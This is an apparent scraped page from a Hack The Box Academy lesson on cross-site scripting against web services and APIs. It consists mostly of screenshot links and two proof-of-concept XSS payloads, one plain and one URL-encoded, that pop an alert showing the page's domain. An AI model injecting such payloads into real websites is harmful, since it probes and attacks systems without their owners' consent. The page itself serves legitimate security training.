 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/160/section/1503
// Platform Version: V1
// Module ID: 160
// Module Name: Web Service & API Attacks
// Module Difficulty: Medium
// Section ID: 1503
// Section Title: Cross-Site Scripting
// Page Title: Web Service & API Attacks
// Page Number: 09
-->

# Cross-Site Scripting

**Module Name:** Web Service & API Attacks **Page Number:** 09

#### WEB SERVICE & API ATTACKS

# Cross-Site Scripting (XSS)

![https://academy.hackthebox.com/storage/modules/160/6.png](https://academy.hackthebox.com/storage/modules/160/6.png)

``` javascript
<script>alert(document.domain)</script>
```

![https://academy.hackthebox.com/storage/modules/160/9.png](https://academy.hackthebox.com/storage/modules/160/9.png)

``` javascript
%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
```

![https://academy.hackthebox.com/storage/modules/160/10.png](https://academy.hackthebox.com/storage/modules/160/10.png)

# 

# 

#### Questions

####
